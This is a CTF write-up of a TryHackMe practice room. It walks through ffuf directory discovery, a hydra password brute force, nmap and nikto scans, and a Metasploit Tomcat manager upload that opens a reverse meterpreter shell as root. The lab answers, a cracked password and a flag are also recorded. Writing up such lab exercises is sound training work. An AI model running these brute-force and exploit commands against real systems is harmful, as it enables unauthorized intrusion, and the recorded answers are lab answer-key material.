








---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - linux
  - web
  - enumeration
  - brute-forcing
  - metasploit
---

# ToolsRus


**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [ToolsRus](https://tryhackme.com/room/toolsrus)

## Overview
This "Challenge" room was presented as an opportunity to practice using basic tools rather than a whole CTF journey as is common with THM challenges. As such, this is not a full blow-by-blow walkthrough and merely details the tools and commands used to complete the tasks in the challenge.

## Task 1: 
Directory discovery
### Process
Tool used: `ffuf`  
Command: `ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`  
Output:  

### Answer
??? success "What directory can you find, that begins with a 'g'?"
	guidelines  

## Tasks 2 and 3
Web page enumeration
### Process
Tool used: web browser (navigate to directories discovered in `ffuf` scan)  
Output (2):  
  
Output (3):  
  
### Answer (2)
??? success "Whose name can you find from this directory?"
	bob  
### Answer (3)
??? success "What directory has basic authentication?"
	protected  

## Task 4
Password brute forcing
### Process
Tool used: `hydra`  
Command used: `hydra -l bob -P /usr/share/wordlists/rockyou.txt -f <IP ADDRESS> http-get /protected`  
Output:  

### Answer
??? success "What is bob's password to the protected part of the website?"
	bubbles

## Tasks 5 and 6
Service enumeration
### Process
Tool used: `nmap`  
Commands used:
```
ports=$(nmap -Pn -p- --min-rate=1000 <IP ADDRESS> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -A -T4 <IP ADDRESS> 
```
Output:  

### Answer (5)
??? success "What other port that serves a webs service is open on the machine?"
	1234
### Answer (6)
??? success "What is the name and version of the software running on the port from question 5?"
	Apache Tomcat/7.0.88

## Task 7
Web application enumeration
### Process
Tool used: `nikto`  
Command used: `nikto -host <IP ADDRESS> -id 'bob:<PASSWORD>' -port <PORT> -root '/manager/html' -Cgidirs none`  
Output:  
  
### Answer
??? success "How many documentation files are found?"
	7

## Tasks 8 and 9
Service enumeration
### Process
Tool used: `nmap`  
Command used: N/A - used output from tasks 5 and 6
### Answer (8)
??? success "What is the server version?"
	Apache/2.4.18
### Answer (9)
??? success "What version of Apache-Coyote is this service using?"
	1.1

## Task 10
Vulnerability exploitation
### Process
Tool used: `msfconsole`  
Command used:
```
msfconsole -q -x "use exploit/multi/http/tomcat_mgr_upload; set HttpPassword <PASSWORD>; set  HttpUsername bob; set RHOSTS <IP ADDRESS>; set RPORT <PORT>; set LHOST <VPN NETWORK INTERFACE>; exploit"
getuid
```
Output:  
  
### Answer
??? success "What user did you get a shell as?"
	root

## Task 11
Obtain flag
### Process
Tool used: `meterpreter` (shell obtained from `msfconsole` commands in Task 10)  
Commands used:  
```
ls -l /root
cat /root/<FILE NAME>
```
Output:  
  
### Answer
??? success "What flag is found in the root directory?"
	ff1fc4a81affcc7688cf89ae7dc6e0e1

**Tools Used**  
`ffuf` `hydra` `nmap` `nikto` `msfconsole`

**Date completed:** 17/03/26  
**Date published:** 17/03/26